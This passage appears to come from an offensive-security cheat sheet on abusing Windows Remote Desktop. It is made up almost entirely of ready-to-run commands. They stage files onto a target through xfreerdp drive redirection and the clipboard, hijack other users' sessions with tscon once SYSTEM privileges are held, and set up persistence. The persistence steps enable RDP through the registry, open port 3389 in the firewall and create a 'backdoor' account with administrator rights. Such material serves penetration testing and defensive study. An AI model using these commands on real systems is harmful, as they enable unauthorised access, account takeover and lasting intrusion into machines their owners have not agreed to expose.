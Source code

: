 **Method 1: Drive redirection**
```bash
xfreerdp /v:$IP /u:username /p:password /cert:ignore /drive:share,/tmp
```

On target:
```cmd
copy \\tsclient\share\file.exe C:\temp\
```

**Method 2: Clipboard**
```bash
xfreerdp /v:$IP /u:username /p:password /cert:ignore +clipboard
```

Base64 encode files, copy via clipboard, decode on target.

## Session Hijacking

**Enumerate sessions (requires admin):**
```cmd
query session
qwinsta
```

**Get detailed session info:**
```cmd
query user
```

**Hijack session (requires SYSTEM privileges):**
```cmd
tscon <session_id> /dest:<target_session>
```

**Example:**
```cmd
tscon 2 /dest:console
```

## Persistence via RDP

**Enable RDP if disabled:**
```cmd
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

**Add firewall exception:**
```cmd
netsh advfirewall firewall add rule name="Remote Desktop" dir=in action=allow protocol=TCP localport=3389
```

**Create backdoor user:**
```cmd
net user backdoor Password123! /add
net localgroup "Remote Desktop Users" backdoor /add
net localgroup administrators backdoor /add
```
